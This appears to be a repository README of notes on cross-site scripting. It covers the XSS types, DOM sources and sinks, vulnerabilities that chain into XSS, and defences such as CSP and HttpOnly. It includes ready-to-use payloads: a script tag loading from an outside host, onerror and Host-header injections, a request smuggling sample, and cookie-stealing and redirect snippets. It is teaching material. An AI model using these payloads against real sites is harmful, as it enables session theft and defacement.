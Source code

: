 # XSS-reserch
A research related to xss vulnerability
XSS (Cross-Site Scripting) vulnerability refers to code injection where hackers are able to inject malicious code into web pages or other web applications. These codes may include JavaScript, HTML, or other programming languages. An XSS vulnerability allows hackers to steal sensitive user information, steal user sessions, or perform unauthorized operations.

XSS vulnerability is divided into several categories:

    stored
    reflected
    blind
    self
    DOM
    
Stored xss
This type of attack is one of the worst types of XSS attacks, where the hacker permanently places his code on the victim's website so that he can use it permanently 


Reflected xss
This type of attack, which is also the most common XSS attack, the intruder finds temporary security holes in the website and implements his goals.
For example, if the site has a hole in the search section, the hacker can enter the desired code and provide other users with the address of the vulnerable page using shortened links.

DOM-xss
DOM XSS is an advanced type of XSS attack that allows an attacker to inject malicious scripts along with data sent to the Document Object Model (DOM). The data is then read by the web application and transferred to the browser.
In JavaScript, sinks refer to places that receive and use external data. Generally, sinks are points in a program or web page where input data is used, and if the input is not properly validated, it can lead to security vulnerabilities.
For example, functions like innerHTML, eval, setAttribute, etc. are common sinks in JavaScript. These functions can directly or indirectly receive external data and use them in a web page or program. If the inputs to these functions are not properly validated, hackers may be able to inject malicious code as inputs to these functions and have them executed in users' browsers.
On the other hand, sources in JavaScript refer to places that generate or provide external data. Generally, sources are points in a program or web page that produce external data.
So, in summary, DOM XSS occurs when a JavaScript source accepts user input and passes it to another function that may execute it as an unsafe sink.

Source

    document.URL
    document.documentURI 
    document.URLUnencoded 
    document.baseURI 
    location 
    document.cookie 
    document.referrer 
    window.name 
    history.pushState 
    history.replaceState
    
sink

    document.write()
    window.location
    document.cookie
    eval()
    document.domain
    WebSocket()
    someElement.src
    postMessage()
    setRequestHeader()
    FileReader.readAsText()
    ExecuteSql()
    sessionStorage.setItem()
    document.evaluate()
    JSON.parse()
    someElement.setAttribute()
    RegExp()

Blind xss
Blind XSS vulnerability is a type of Persistent XSS vulnerability. This vulnerability occurs when the penetration test input is stored on the web server and executed by a script in another part of the application or in another application.
Payload

    "><script src=https://hello.xss></script>

self-xss
This vulnerability is implemented through social engineering attacks that force the victim to enter malicious code into their console 

  
-------------------------------------------------------

Vulnerabilities that convert to xss:

    css injection 
    html injection 
    clickjacking 
    host header injection 
    Request smuggling 
    File Upload

css injection

CSS Injection Vulnerability means injecting malicious CSS code into web pages or web applications. This vulnerability allows hackers to inject malicious CSS code into the page and make changes to the appearance and display of the page. These codes may include changing colors, fonts, hiding elements, and other stylistic changes, or even the vulnerability can be converted to xss.
Payload:

     body {
           background-image: url('javascript:alert("origin")');
     }

     html injection

HTML injecton

HTML Injection vulnerability means injecting malicious HTML code into web pages or web applications. This vulnerability allows hackers to inject malicious HTML code into the page and make changes to the structure and display of the page. These codes may include adding new HTML elements, changing content, and hiding elements

XSSJacking

If our target has a clickjacking vulnerability, a self xss attack can be executed
Clickjacking vulnerability occurs when the website has used the iframe tag but has not secured it with the X-Frame-Option header.

XSS via to HOST header injection

Attacks that include direct injection of the payload into the Host header are called Host header injection attacks, which can sometimes be converted to xss.
Payload

    X-forwarded-host: "><script>alert(origin)</script>

Xss via upload file

There are two modes for xss in upload file
1_ Through the file name
Payload

    "><img src=x onerror=alert(origin)>.png

2_ Making changes in the content of the file   

Request smuggling to xss

The vulnerability of request smuggling can be converted to xss
for example :

    POST/HTTP/1.1
    Host: hacker
    Content-Length: 150 
    Transfer-Encoding: chunked

    0

    GET /hello
    user-agent: "><script>alert(origin)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4

    X = 1
-------------------------------------------------------
xss exploit
  
Stealing Cookies:

    alert(document.cookie) 
    
open redirect:

    location.replace(http://......)
    
-------------------------------------------------------
Methods to prevent xss vulnerability :

    HttpOnly 
    CSP
    x-xss-Protection
    Filter

HttpOnly

http-only cookies, the thing about these cookies is that the browser prevents them from being read by javascript.
HttpOnly can be bypassed through phpinfo

CSP

Content Security Policy or CSP is a large new HTTP header that controls where a browser is allowed to load content and what type of content it is allowed to load to prevent attacks like XSS.

x-xss-protection

This header helps us to prevent the occurrence of xss vulnerability

Filter

Characters can be filtered with the help of some functions such as htmlspecialchars

